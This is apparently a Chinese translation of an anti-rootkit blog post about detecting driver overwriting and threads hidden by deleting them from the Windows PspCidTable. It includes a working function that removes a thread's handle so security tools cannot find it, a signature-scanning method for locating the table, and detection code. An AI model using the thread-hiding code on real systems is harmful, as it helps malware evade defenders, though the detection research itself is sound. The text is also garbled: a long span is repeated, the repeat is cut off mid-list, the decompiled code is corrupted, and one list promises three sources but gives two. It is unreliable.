

# **覆盖驱动与隐藏线程**

在上一篇博客中，我们有了一个小型反Rootkit驱动的开发。这个驱动能够检测映射到无支持内存的恶意驱动，前提是这些恶意驱动要么作为标准的Windows驱动运行（为`IRP`通信注册设备对象），要么在无支持内存中运行任何线程，当然，使用了其他反反Rootkit技术的情况除外。本文将介绍针对这个特定反Rootkit的一些对抗方法，内容基于第一部分。如果您还没有阅读第一部分，建议现在去阅读，反正篇幅也不长（https://bbs.kanxue.com/thread-281558.htm）。



## 检测方法1：检测驱动 “覆盖”技术

上一部分主要围绕使用 kdmapper 等映射工具检测映射到内存中的Rootkit展开。通常，这些工具**利用存在漏洞且已签名的驱动中的任意写原语**，将驱动手动映射到内核内存。所以，上一篇博客的前提是，检测来自无支持内存的线程是检测这类Rootkit的一种方式。

在上一篇文章的结尾，我简要提到了驱动 “覆盖”，即通过覆盖内存中已有的驱动来加载Rootkit。正如我所说，通过简单对比驱动磁盘上的`.text`节和内存中的`.text`节（类似于检测模块覆盖），就能够轻松检测到这种行为。实现过程非常直观（和往常一样，为简洁起见省略了错误处理部分）：
首先，我们像第一部分那样遍历`\\Driver`目录：

```c
// 获取指向\\Driver目录的句柄
InitializeObjectAttributes( &attributes,
    &directoryName,
    OBJ_CASE_INSENSITIVE,
    NULL,
    NULL);
status = ZwOpenDirectoryObject (&handle,
    DIRECTORY_ALL_ACCESS,
    &attributes);
status = ObReferenceObjectByHandle(
    handle,
    DIRECTORY_ALL_ACCESS,
    nullptr,
    KernelMode,
    &directory,
    nullptr);
POBJECT_DIRECTORY directoryObject = (POBJECT_DIRECTORY)directory;
ULONG_PTR hashBucketLock = directoryObject->Lock;

DbgPrint( "Scanning DriverObjects...\\n");

// 锁定哈希桶
KeEnterCriticalRegion();
ExAcquirePushLockExclusiveEx( &hashBucketLock, 0);

for (POBJECT_DIRECTORY_ENTRY entry : directoryObject->HashBuckets)
{
    while (entry != nullptr && entry->Object)
    {
        PDRIVER_OBJECT driver = (PDRIVER_OBJECT)entry->Object;

```

然后，我们获取驱动服务名称，并在注册表中查找其路径（这存在缺陷，因为Rootkit也可以通过将该值设置为指向实际的Rootkit驱动来进行欺骗，但这样攻击者就必须将其写入磁盘，或者hook文件系统驱动进行欺骗，不过这需要额外的操作）：

```c
// 获取驱动服务名称以查找二进制文件路径。去掉\\Driver前缀
UkStripDriverPrefix( &driver->DriverName, &driverServiceName);

// 从注册表查询镜像路径
NTSTATUS status = UkGetDriverImagePath( &driverServiceName, &imagePath);

// 创建绝对路径
status = UkPrependWindowsPathIfStartsWithSystem32( &imagePath, &imagePathAbsolute);

```

有了这个绝对路径，我们就可以将其与内存中的镜像进行比较：

```c
// 读取镜像并与内存中的镜像进行比较
ULONG fileSize = 0;
status = UkReadFileToMemory (&imagePathAbsolute, &fileBuffer, &fileSize);

// 比较.text节
if (!NT_SUCCESS( UkGetPeSection( ".text", fileBuffer, textSectionOnDiskBuffer, &sectionSizeOnDisk))
    ||!NT_SUCCESS( UkGetPeSection( ".text", driver->DriverStart, textSectionInMemBuffer, &sectionSizeInMem))
    ||!textSectionOnDiskBuffer ||!textSectionInMemBuffer)
{
    goto Next;
}

if ( RtlCompareMemory (textSectionOnDiskBuffer, textSectionInMemBuffer, sectionSizeOnDisk) != sectionSizeOnDisk)
{
    DbgPrint ("-- [!].TEXT SECTION DIFFERS\\n");
}
Next:
/* [...] 清理操作 */
entry = entry->ChainLink;
ExReleasePushLockExclusiveEx( &hashBucketLock, 0);
KeLeaveCriticalRegion();
ObDereferenceObject( directory);
ZwClose( handle);

```

在我的机器上，我完全没有发现自我修改的驱动，即没有误报（不过，对于幽灵驱动，可能需要对路径解析进行一些调整）。但是，如果映射工具不使用`.text`节，而是使用其他节，比如`.data`或`.rdata`呢？SinMapper或lpmapper等工具就是这样实现的。对于lpmapper，VollRagm在他的博客文章《滥用大页驱动将shellcode复制到有效的内核模块中》中描述了检测方法。对于SinMapper，我们应该可以使用第一部分中的常规方法来检测线程，不过这次我们不仅要检查无支持内存，还要检查源自非`.text`节的线程。

## Windows线程内部机制：句柄表和PspCidTable

在unKover项目实现的每一种检查线程起始地址的技术中，都使用了`PsLookupThreadByThreadId`，这是`ntoskrnl.exe`导出的一个例程。如果我们在IDA中对该函数进行反编译，查看其实现，会发现它内部调用了私有例程`PspReferenceCidTableEntry`：

```c
NTSTATUS __stdcall PsLookupThreadByThreadId (HANDLE ThreadId, PETHREAD *Thread)
{
    struct _KTHREAD *CurrentThread; // rdi
    struct _KTHREAD *pKthread; // rax
    struct _KTHREAD *pEthread; // rbx
    int v10[10]; // [rsp+eh] [rbp-28h] BYREF
    _int64 CurrentServerSilo; // rax
    NTSTATUS status; //esi
    bool v8; // zf
    CurrentThread = KeGetCurrentThread();
    pKthread =PspReferenceCidTableEntry(ThreadId, 6);
    // --CurrentThnend->Snecin1AneDicahle（此处可能存在代码错误或乱码）
    pEthread = pktnread;
    if (pKthread
    // 后续代码省略
}

```

如果查看这个函数，我们会看到一个对名为`PspCidTable`的全局符号的引用：

```c
PKTHREAD _fastcall PspReferenceCidTableEntry(HANDLE threadId, char a2)
{
    _HANDLE_TABLE_ENTRY *handleTableEntry; // rax
    _HANDLE_TABLE_ENTRY *handleTableEntry_1; // rdi
    unsigned int *pspCidTable_1; // rbp
    signed_int64 HighValue; // rcx
    unsigned _int64 v7; // r8
    unsigned_int128 v8; // rto
    unsigned _int8 v9; // tt
    unsigned_int64 v10; // rax
    _BYTE *v11; // rax
    _int64 HandlePointer; // rbx
    int v14; // ebp
    bool v16;// zf -
    int64 v15; // rdx
    int64 v17; // r8
    signed _int64 v18; // rax
    signed _int64 v19; // rtt
    unsigned int *pspCidTable_2; // rcx
    _QWORD *v21; // rcx
    unsigned _int64 v22; // rax
    int v23[8]; // [rsp+0h] [rbp-48h] BYREF
    _OWORD v24[2]; // [rsp+20h] [rbp-28h] BYREF
    if (((unsigned_int16)threadId & 0x3FC)==0)
        return NULL;
    handleTableEntry = handleTableEntry_1 = NULL;
    if (!handleTableEntry)
        pspCidTable_1 = PspCidTable;
    return NULL;
    ExpLookupHandleTableEntry(PspCidTable, threadId);
    // 后续代码省略
}

```

这是一个指向句柄表的指针，该句柄表（包括其他内容）包含线程的句柄（从使用目标线程ID调用`ExpLookupHandleTableEntry`就可以看出这一点）。句柄表就是一个页面大小的块，最多可以存储256个句柄条目，或者是对其他句柄表的引用（详见《什么是Windows句柄 - Windows内部机制解析》（[guidedhacking.com](http://guidedhacking.com/)））。以下是与句柄表相关的C结构体：

```c
typedef struct _HANDLE_TABLE
{
    ULONG TableCode;
    PEPROCESS QuotaProcess;
    PVOID UniqueProcessId;
    EX_PUSH_LOCK HandleLock;
    LIST_ENTRY HandleTableList;
    EX_PUSH_LOCK HandleContentionEvent;
    PHANDLE_TRACE_DEBUG_INFO DebugInfo;
    LONG ExtraInfoPages;
    ULONG Flags;
    ULONG StrictFIFO: 1;
    LONG FirstFreeHandle;
    PHANDLE_TABLE_ENTRY LastFreeHandleEntry;
    LONG HandleCount;
    ULONG NextHandleNeedingPool;
} HANDLE_TABLE, *PHANDLE_TABLE;

typedef struct _HANDLE_TABLE_ENTRY
{
    union
    {
        PVOID Object;
        ULONG ObAttributes;
        PHANDLE_TABLE_ENTRY_INFO InfoTable;
        ULONG Value;
    };
    union
    {
        ULONG GrantedAccess;
        struct
        {
            WORD GrantedAccessIndex;
            WORD CreatorBackTraceIndex;
        };
        LONG NextFreeTableEntry;
    };
} HANDLE_TABLE_ENTRY, *PHANDLE_TABLE_ENTRY;

```

如果进一步深入研究，我们会发现这个特定的句柄表也被`PsLookupProcessByProcessId`使用。因此，`PspCidTable`是用于生成唯一进程和线程（客户端）ID（CIDs）的资源池。这也解释了为什么进程ID和线程ID永远不会相同，因为这个ID资源池同时用于进程和线程句柄。

### 漏洞

正如我们在IDA中看到的，在调用`ExpLookupHandleTableEntry`之后的两行代码中，如果没有找到查询ID对应的句柄表条目，函数就会返回`NULL`，这就是我们攻击反Rootkit的切入点。如果我们从这个表中删除Rootkit的线程ID，任何依赖调用`PspCidTable`的安全解决方案，比如`PsLookupThreadByThreadId`，都将找不到该线程，因为函数会返回`NULL`，而不是实际的线程。

通过这种方式，我们直接针对这个特定的反Rootkit实现进行攻击。这里的关键是，通过逆向工程或代码审计，找出所面对的安全产品中的漏洞，并加以利用。

### 定位PspCidTable

使用”签名扫描“来查找这类指针。我们的`PspReferenceCidTableEntry`函数似乎很适合，因为它包含对我们感兴趣对象的静态引用。这意味着我们可以简单地扫描第一条`mov rbp, cs:`指令，并从汇编指令字节中提取到`PspCidTable`的偏移量。当然，对于不同版本的`ntoskrnl`，这个签名可能会有所不同。你可以硬编码不同的目标签名，或者使用YASS之类的工具。

```c
// 以下是IDA中的部分代码示例
PAGE:00000001406DC110 ; PKTHREAD _fastcall PspReferenceCidTableEntry(HANDLE threadId, char a2)
PAGE:00000001406DC110 PspReferenceCidTableEntry proc near
PAGE:00000001406DC110 ; 代码交叉引用: PsLookupProcessByProcessId+2B1p
PAGE:00000001406DC110 ; PsLookupThreadByThreadId+251p
PAGE:00000001406DC110 ; 数据交叉引用:
PAGE:00000001406DC110 var_48 = dword ptr -48h
PAGE:00000001406DC110 var_28 = qword ptr -28h
PAGE:00000001406DC110 var_20 = qword ptr -20h
PAGE:00000001406DC110 var_18 = xmmword ptr -18h
PAGE:00000001406DC110 arg_0 = qword ptr 8
PAGE:00000001406DC110 arg_8 = qword ptr 10h
PAGE:00000001406DC110 arg_10 = qword ptr 18h
PAGE:00000001406DC110 ; FUNCTION CHUNK AT PAGE:00000001408C20D6 SIZE 0000006B BYTES
PAGE:00000001406DC110
PAGE:00000001406DC115 mov [rsp+arg_θ], rbx
PAGE:00000001406DC11A mov [rsp+arg_8], rbp
PAGE:00000001406DC11F mov [rsp+arg_10], rsi
PAGE:00000001406DC120 push rdi
PAGE:00000001406DC124 sub rsp, 40h
PAGE:00000001406DC12B movzx esi, dl
PAGE:00000001406DC12E test ecx, 3FCh
PAGE:00000001406DC134 jz loc_1406DC2B5
PAGE:00000001406DC13A mov rdx, rcx
PAGE:00000001406DC13D mov rcx, rax ; threadId ;a1
PAGE:00000001406DC140 call ExpLookupHandleTableEntry
PAGE:00000001406DC145 mov rdi, rax
PAGE:00000001406DC148 test rax, rax
PAGE:00000001406DC14B mov rbp, cs:PspCidTable
PAGE:00000001406DC151 ; 后续代码省略

```

（如果你对`cs`段选择器感到疑惑，在不再依赖分段机制的64位操作系统中，`cs`基址通常设置为0。所以，你可以直接从这条指令中提取偏移量，并将其当作一条 “普通” 的`mov`指令来处理。）

### 老招新用

我们如何从这个表中删除我们的句柄呢？根据vx-underground的信息，我们有三个参考来源（原英文部分表述不太准确，推测这里是指查找相关信息的途径）：

1. 在UnknownCheats的这篇文章中（见《[教程] 从PspCidTable中删除你的系统线程》），使用`ExDestroyHandle`直接从表中销毁/删除句柄。
2. 在2006年Uninformed的这篇博客文章中，将`HANDLE_TABLE_ENTRY`结构体的`Object`属性设置为`NULL`（有趣的是，当时这样做是为了规避Blacklight反Rootkit）。

下面我们按照教程中的第一种方法来实现。

### 删除句柄表条目

首先，我们扫描`ExMapHandleToPointer`，然后从这个函数中扫描`ExpLookupHandleTableEntry`，`ExpLookupHandleTableEntry`是用于在`PspCidTable`中查找，并为我们获取线程的`HANDLE_TABLE_ENTRY`的函数。不能直接使用`ExMapHandleToPointer`，因为这会导致死锁。我们还需要扫描`ExDestroyHandle`。这里我就不再一步步详细解释了，你可以在IDA中查找交叉引用（xrefs），提取签名并进行扫描。

我们可以通过一个非常简单的函数从表中删除句柄，从而对操作系统隐藏线程：

```c
NTSTATUS
RemoveEntryFromPspCidTable(
    ULONG id
)
{
    auto cidEntry = g_ExpLookupHandleTableEntry( *g_pPspCidTable, ULongToHandle(id));
    if (cidEntry != NULL)
    {
        g_ExDestroyHandle (*g_pspCidTable, ULongToHandle (id), cidEntry);
        return STATUS_SUCCESS;
    }
    return STATUS_NOT_FOUND;
}

```

当句柄从`PspCidTable`中移除后，任何依赖它的函数，比如`ntoskrnl`中的大多数`Ps*`例程，都无法再找到我们的线程。当然，这并不能让我们完美地躲过警惕的反Rootkit程序的检测……

## 检测方法2：通过查找不一致性来检测篡改行为

检测篡改行为的通用策略是检查是否存在不一致的地方。通常，篡改数据的攻击者只会做他们需要做的部分，可能会忽略其他仍然引用这些数据的地方。也就是说，除了直接使用系统提供的`Ps*` API之外，还有其他方法可以从Windows驱动中列出线程。如果一个线程在某个地方出现，而在另一个地方却没有，那我们就找到了可疑目标。

我在unKover中实现的一种方法是遍历进程的线程链表。在Windows内核中，每个进程都由一个`KPROCESS`/`EPROCESS`对象表示。这个对象包含一个线程链表，其中包含了该进程的所有线程，链表的起始点是`ThreadListHead`。（`E*`结构体的第一个成员是对应的`K*`结构体，这意味着你可以根据需要在它们之间进行类型转换。`K*`本质上是`E*`的一个子集。）

```
0: kd> dt nt!_EPROCESS
+0x000 Pcb : _KPROCESS         /* KPROCESS作为EPROCESS的第一个成员 */
+0x438 ProcessLock : _EX_PUSH_LOCK
+0x440 UniqueProcessId : Ptr64 Void
+0x448 ActiveProcessLinks : _LIST_ENTRY [... ]
+0x5e0 ThreadListHead : _LIST_ENTRY /* 线程链表头 */

```

此外，属于这个链表的线程，无论是从`KTHREAD`还是`ETHREAD`结构体中，都可以引用这个链表：

```
1: kd> dt nt!_KTHREAD
+0x000 Header : _DISPATCHER_HEADER
+0x018 SListFaultAddress : Ptr64 Void
+0x020 QuantumTarget : Uint8B [... ]
+0x2f8 ThreadListEntry : _LIST_ENTRY /* 链表项引用 */

```

由于所有的内核驱动，包括Rootkit，默认情况下都在进程ID为`4`的Windows系统进程下运行。如果我们从反Rootkit驱动中获取当前线程，我们就处于正确的线程链表中。然后，我们可以从当前线程的`ThreadListEntry`开始遍历这个链表，枚举在系统进程下运行的所有驱动线程。如果我们在这里找到一个线程ID，通过`PsLookupThreadByThreadId`在`PspCidTable`中找不到它，或者它指向一个已损坏的条目，那我们就找到了可疑的线程：

```
Found PspReferenceCidTableEntry: 0xfffff8025cc950a0
Found displacement: 0x667507
Found pspCidTable: 0xfffff8025d2fc5c8
ObSetHandleAttributes at 0xfffff8025cc5e770
Found ExMapHandleToPointer: 0xfffff8025cc504d0
[*] Found ExpLookupHandleTableEntry: 0xfffff8025cc2e6a0
Current PID: 0x4, Current TID: 0x1514
Getting info on thread id: 0x1514
[*] PsLookupThreadByThreadId status: 0x0
[unkover] :: Starting to look for hidden threads
[unkover] :: Starting to look for hidden threads
[*] Removing current thread from PspCidTable...
[*] Getting info on thread id: 0x1514
[*] PsLookupThreadByThreadId status: 0xc000000b
[unkover] :: Starting to look for hidden threads
[unkover]:: Found hidden thread: PID: 0x1514

```

这段代码和删除句柄的代码一样直观。不过，目前`KTHREAD`结构体中`ThreadListEntry`的偏移量是硬编码的。至少在我作为虚拟机运行的两个Windows版本中，这个偏移量是稳定的。

```c
#define THREAD_LIST_ENTRY_OFFSET 0x2f8

typedef struct _myKTHREAD
{
    char padding[0x2F8];                // 0x0000
    struct _LIST_ENTRY ThreadListEntry; // 0x02F8
    // [ ... ]
} myKTHREAD, *myPKTHREAD;

NTSTATUS
UkWalkSystemProcessThreads( )
{
    // 获取当前线程（系统进程/PID 4中的任意一个线程即可）
    auto currentThread = KeGetCurrentThread( );
    auto threadListEntry = (PLIST_ENTRY) ((ULONG_PTR)currentThread + THREAD_LIST_ENTRY_OFFSET);
    auto listEntry = threadListEntry;

    // 遍历所有链表项
    while ((listEntry = listEntry->Flink) != threadListEntry)
    {
        auto entry = CONTAINING_RECORD (listEntry, myKTHREAD, ThreadListEntry);
        auto threadId = (ULONG)PsGetThreadId ((PETHREAD)entry);

        if (threadId != 0)
        {
            PETHREAD pThread = NULL;
            NTSTATUS status = PsLookupThreadByThreadId(ULongToHandle(threadId), &pThread);

            // 如果PsLookupThreadByThreadID失败，我们就找到了可疑目标
            if (!NT_SUCCESS(status))
            {
                LOG_MSG ("Found hidden thread: PID: 0x%llx\\n", threadId);
            }
        }
    }
    return STATUS_SUCCESS;
}

```

我认为WinDbg的`!thread`命令也是这样工作的 —— 如果它在`PspCidTable`中找不到线程，就会遍历链表来查找（注意“free handle”）。不过这只是我的猜测。

```
0: kd> !thread -t 184
0184: free handle, Entry address ffff800460eb4610, Next Entry ffff800464e17cb0
Looking for thread Cid =184 ...
0184: free handle, Entry address ffff800460eb4610, Next Entry ffff800464e17cb0
THREAD ffffb20f52363040 Cid 0004.0184 Teb:0000000000000000 Win32Thread:00000000000000 ffffffffffffffff NotificationEvent
Not impersonating
DeviceMap
Owning Process
Attached Process
Wait Start TickCount Context Switch Count UserTime KernelTime Win32 Start Address nt!ExpworkerThread
ffff800460e39360
ffffb20f4fc7f080 N/A 32407 19158 00:00:00.000 00:00:00.312
Image: System
Image: N/A
Ticks:193(0:00:00:03.015) IdealProcessor: 0
(0xfffff80082422420)

```

虽然我们还可以继续进行这种猫捉老鼠的游戏，比如在其他地方删除我们的线程，或者删除进程，甚至伪造线程，但这是一场无休止的来回博弈，我就不再深入探讨了。如果你了解Rootkit中用于隐藏进程的技巧（即将进程从进程链表中解除链接），那么在这里你也可以对线程链表做类似的操作。想要深入了解的话，可以查看ZeroMemoryEx的Chaos - Rootkit的README文件。

# **检测映射的 Rootkit**

https://bbs.kanxue.com/thread-281558.htm

# **覆盖驱动与隐藏线程**

在上一篇博客中，我们有了一个小型反Rootkit驱动的开发。这个驱动能够检测映射到无支持内存的恶意驱动，前提是这些恶意驱动要么作为标准的Windows驱动运行（为`IRP`通信注册设备对象），要么在无支持内存中运行任何线程，当然，使用了其他反反Rootkit技术的情况除外。本文将介绍针对这个特定反Rootkit的一些对抗方法，内容基于第一部分。如果您还没有阅读第一部分，建议现在去阅读，反正篇幅也不长（https://bbs.kanxue.com/thread-281558.htm）。


## 检测方法1：检测驱动 “覆盖”技术

上一部分主要围绕使用 kdmapper 等映射工具检测映射到内存中的Rootkit展开。通常，这些工具**利用存在漏洞且已签名的驱动中的任意写原语**，将驱动手动映射到内核内存。所以，上一篇博客的前提是，检测来自无支持内存的线程是检测这类Rootkit的一种方式。

在上一篇文章的结尾，我简要提到了驱动 “覆盖”，即通过覆盖内存中已有的驱动来加载Rootkit。正如我所说，通过简单对比驱动磁盘上的`.text`节和内存中的`.text`节（类似于检测模块覆盖），就能够轻松检测到这种行为。实现过程非常直观（和往常一样，为简洁起见省略了错误处理部分）：
首先，我们像第一部分那样遍历`\\Driver`目录：

```c
// 获取指向\\Driver目录的句柄
InitializeObjectAttributes( &attributes,
    &directoryName,
    OBJ_CASE_INSENSITIVE,
    NULL,
    NULL);
status = ZwOpenDirectoryObject (&handle,
    DIRECTORY_ALL_ACCESS,
    &attributes);
status = ObReferenceObjectByHandle(
    handle,
    DIRECTORY_ALL_ACCESS,
    nullptr,
    KernelMode,
    &directory,
    nullptr);
POBJECT_DIRECTORY directoryObject = (POBJECT_DIRECTORY)directory;
ULONG_PTR hashBucketLock = directoryObject->Lock;

DbgPrint( "Scanning DriverObjects...\\n");

// 锁定哈希桶
KeEnterCriticalRegion();
ExAcquirePushLockExclusiveEx( &hashBucketLock, 0);

for (POBJECT_DIRECTORY_ENTRY entry : directoryObject->HashBuckets)
{
    while (entry != nullptr && entry->Object)
    {
        PDRIVER_OBJECT driver = (PDRIVER_OBJECT)entry->Object;

```

然后，我们获取驱动服务名称，并在注册表中查找其路径（这存在缺陷，因为Rootkit也可以通过将该值设置为指向实际的Rootkit驱动来进行欺骗，但这样攻击者就必须将其写入磁盘，或者hook文件系统驱动进行欺骗，不过这需要额外的操作）：

```c
// 获取驱动服务名称以查找二进制文件路径。去掉\\Driver前缀
UkStripDriverPrefix( &driver->DriverName, &driverServiceName);

// 从注册表查询镜像路径
NTSTATUS status = UkGetDriverImagePath( &driverServiceName, &imagePath);

// 创建绝对路径
status = UkPrependWindowsPathIfStartsWithSystem32( &imagePath, &imagePathAbsolute);

```

有了这个绝对路径，我们就可以将其与内存中的镜像进行比较：

```c
// 读取镜像并与内存中的镜像进行比较
ULONG fileSize = 0;
status = UkReadFileToMemory (&imagePathAbsolute, &fileBuffer, &fileSize);

// 比较.text节
if (!NT_SUCCESS( UkGetPeSection( ".text", fileBuffer, textSectionOnDiskBuffer, &sectionSizeOnDisk))
    ||!NT_SUCCESS( UkGetPeSection( ".text", driver->DriverStart, textSectionInMemBuffer, &sectionSizeInMem))
    ||!textSectionOnDiskBuffer ||!textSectionInMemBuffer)
{
    goto Next;
}

if ( RtlCompareMemory (textSectionOnDiskBuffer, textSectionInMemBuffer, sectionSizeOnDisk) != sectionSizeOnDisk)
{
    DbgPrint ("-- [!].TEXT SECTION DIFFERS\\n");
}
Next:
/* [...] 清理操作 */
entry = entry->ChainLink;
ExReleasePushLockExclusiveEx( &hashBucketLock, 0);
KeLeaveCriticalRegion();
ObDereferenceObject( directory);
ZwClose( handle);

```

```c

```

在我的机器上，我完全没有发现自我修改的驱动，即没有误报（不过，对于幽灵驱动，可能需要对路径解析进行一些调整）。但是，如果映射工具不使用`.text`节，而是使用其他节，比如`.data`或`.rdata`呢？SinMapper或lpmapper等工具就是这样实现的。对于lpmapper，VollRagm在他的博客文章《滥用大页驱动将shellcode复制到有效的内核模块中》中描述了检测方法。对于SinMapper，我们应该可以使用第一部分中的常规方法来检测线程，不过这次我们不仅要检查无支持内存，还要检查源自非`.text`节的线程。

## Windows线程内部机制：句柄表和PspCidTable

在unKover项目实现的每一种检查线程起始地址的技术中，都使用了`PsLookupThreadByThreadId`，这是`ntoskrnl.exe`导出的一个例程。如果我们在IDA中对该函数进行反编译，查看其实现，会发现它内部调用了私有例程`PspReferenceCidTableEntry`：

```c
NTSTATUS __stdcall PsLookupThreadByThreadId (HANDLE ThreadId, PETHREAD *Thread)
{
    struct _KTHREAD *CurrentThread; // rdi
    struct _KTHREAD *pKthread; // rax
    struct _KTHREAD *pEthread; // rbx
    int v10[10]; // [rsp+eh] [rbp-28h] BYREF
    _int64 CurrentServerSilo; // rax
    NTSTATUS status; //esi
    bool v8; // zf
    CurrentThread = KeGetCurrentThread();
    pKthread =PspReferenceCidTableEntry(ThreadId, 6);
    // --CurrentThnend->Snecin1AneDicahle（此处可能存在代码错误或乱码）
    pEthread = pktnread;
    if (pKthread
    // 后续代码省略
}

```

如果查看这个函数，我们会看到一个对名为`PspCidTable`的全局符号的引用：

```c
PKTHREAD _fastcall PspReferenceCidTableEntry(HANDLE threadId, char a2)
{
    _HANDLE_TABLE_ENTRY *handleTableEntry; // rax
    _HANDLE_TABLE_ENTRY *handleTableEntry_1; // rdi
    unsigned int *pspCidTable_1; // rbp
    signed_int64 HighValue; // rcx
    unsigned _int64 v7; // r8
    unsigned_int128 v8; // rto
    unsigned _int8 v9; // tt
    unsigned_int64 v10; // rax
    _BYTE *v11; // rax
    _int64 HandlePointer; // rbx
    int v14; // ebp
    bool v16;// zf -
    int64 v15; // rdx
    int64 v17; // r8
    signed _int64 v18; // rax
    signed _int64 v19; // rtt
    unsigned int *pspCidTable_2; // rcx
    _QWORD *v21; // rcx
    unsigned _int64 v22; // rax
    int v23[8]; // [rsp+0h] [rbp-48h] BYREF
    _OWORD v24[2]; // [rsp+20h] [rbp-28h] BYREF
    if (((unsigned_int16)threadId & 0x3FC)==0)
        return NULL;
    handleTableEntry = handleTableEntry_1 = NULL;
    if (!handleTableEntry)
        pspCidTable_1 = PspCidTable;
    return NULL;
    ExpLookupHandleTableEntry(PspCidTable, threadId);
    // 后续代码省略
}

```

这是一个指向句柄表的指针，该句柄表（包括其他内容）包含线程的句柄（从使用目标线程ID调用`ExpLookupHandleTableEntry`就可以看出这一点）。句柄表就是一个页面大小的块，最多可以存储256个句柄条目，或者是对其他句柄表的引用（详见《什么是Windows句柄 - Windows内部机制解析》（[guidedhacking.com](http://guidedhacking.com/)））。以下是与句柄表相关的C结构体：

```c
typedef struct _HANDLE_TABLE
{
    ULONG TableCode;
    PEPROCESS QuotaProcess;
    PVOID UniqueProcessId;
    EX_PUSH_LOCK HandleLock;
    LIST_ENTRY HandleTableList;
    EX_PUSH_LOCK HandleContentionEvent;
    PHANDLE_TRACE_DEBUG_INFO DebugInfo;
    LONG ExtraInfoPages;
    ULONG Flags;
    ULONG StrictFIFO: 1;
    LONG FirstFreeHandle;
    PHANDLE_TABLE_ENTRY LastFreeHandleEntry;
    LONG HandleCount;
    ULONG NextHandleNeedingPool;
} HANDLE_TABLE, *PHANDLE_TABLE;

typedef struct _HANDLE_TABLE_ENTRY
{
    union
    {
        PVOID Object;
        ULONG ObAttributes;
        PHANDLE_TABLE_ENTRY_INFO InfoTable;
        ULONG Value;
    };
    union
    {
        ULONG GrantedAccess;
        struct
        {
            WORD GrantedAccessIndex;
            WORD CreatorBackTraceIndex;
        };
        LONG NextFreeTableEntry;
    };
} HANDLE_TABLE_ENTRY, *PHANDLE_TABLE_ENTRY;

```

如果进一步深入研究，我们会发现这个特定的句柄表也被`PsLookupProcessByProcessId`使用。因此，`PspCidTable`是用于生成唯一进程和线程（客户端）ID（CIDs）的资源池。这也解释了为什么进程ID和线程ID永远不会相同，因为这个ID资源池同时用于进程和线程句柄。

### 漏洞

正如我们在IDA中看到的，在调用`ExpLookupHandleTableEntry`之后的两行代码中，如果没有找到查询ID对应的句柄表条目，函数就会返回`NULL`，这就是我们攻击反Rootkit的切入点。如果我们从这个表中删除Rootkit的线程ID，任何依赖调用`PspCidTable`的安全解决方案，比如`PsLookupThreadByThreadId`，都将找不到该线程，因为函数会返回`NULL`，而不是实际的线程。

通过这种方式，我们直接针对这个特定的反Rootkit实现进行攻击。这里的关键是，通过逆向工程或代码审计，找出所面对的安全产品中的漏洞，并加以利用。

### 定位PspCidTable

使用”签名扫描“来查找这类指针。我们的`PspReferenceCidTableEntry`函数似乎很适合，因为它包含对我们感兴趣对象的静态引用。这意味着我们可以简单地扫描第一条`mov rbp, cs:`指令，并从汇编指令字节中提取到`PspCidTable`的偏移量。当然，对于不同版本的`ntoskrnl`，这个签名可能会有所不同。你可以硬编码不同的目标签名，或者使用YASS之类的工具。

```c
// 以下是IDA中的部分代码示例
PAGE:00000001406DC110 ; PKTHREAD _fastcall PspReferenceCidTableEntry(HANDLE threadId, char a2)
PAGE:00000001406DC110 PspReferenceCidTableEntry proc near
PAGE:00000001406DC110 ; 代码交叉引用: PsLookupProcessByProcessId+2B1p
PAGE:00000001406DC110 ; PsLookupThreadByThreadId+251p
PAGE:00000001406DC110 ; 数据交叉引用:
PAGE:00000001406DC110 var_48 = dword ptr -48h
PAGE:00000001406DC110 var_28 = qword ptr -28h
PAGE:00000001406DC110 var_20 = qword ptr -20h
PAGE:00000001406DC110 var_18 = xmmword ptr -18h
PAGE:00000001406DC110 arg_0 = qword ptr 8
PAGE:00000001406DC110 arg_8 = qword ptr 10h
PAGE:00000001406DC110 arg_10 = qword ptr 18h
PAGE:00000001406DC110 ; FUNCTION CHUNK AT PAGE:00000001408C20D6 SIZE 0000006B BYTES
PAGE:00000001406DC110
PAGE:00000001406DC115 mov [rsp+arg_θ], rbx
PAGE:00000001406DC11A mov [rsp+arg_8], rbp
PAGE:00000001406DC11F mov [rsp+arg_10], rsi
PAGE:00000001406DC120 push rdi
PAGE:00000001406DC124 sub rsp, 40h
PAGE:00000001406DC12B movzx esi, dl
PAGE:00000001406DC12E test ecx, 3FCh
PAGE:00000001406DC134 jz loc_1406DC2B5
PAGE:00000001406DC13A mov rdx, rcx
PAGE:00000001406DC13D mov rcx, rax ; threadId ;a1
PAGE:00000001406DC140 call ExpLookupHandleTableEntry
PAGE:00000001406DC145 mov rdi, rax
PAGE:00000001406DC148 test rax, rax
PAGE:00000001406DC14B mov rbp, cs:PspCidTable
PAGE:00000001406DC151 ; 后续代码省略

```

（如果你对`cs`段选择器感到疑惑，在不再依赖分段机制的64位操作系统中，`cs`基址通常设置为0。所以，你可以直接从这条指令中提取偏移量，并将其当作一条 “普通” 的`mov`指令来处理。）

### 老招新用

我们如何从这个表中删除我们的句柄呢？根据vx-underground的信息，我们有三个参考来源（原英文部分表述不太准确，推测这里是指查找相关信息的途径）：

1. 在UnknownCheats的这篇文章中（见《[教程] 从PspCidTable中删除你的系统线程》），使用`ExDestroyHandle`直接从表中销毁/删除句柄。
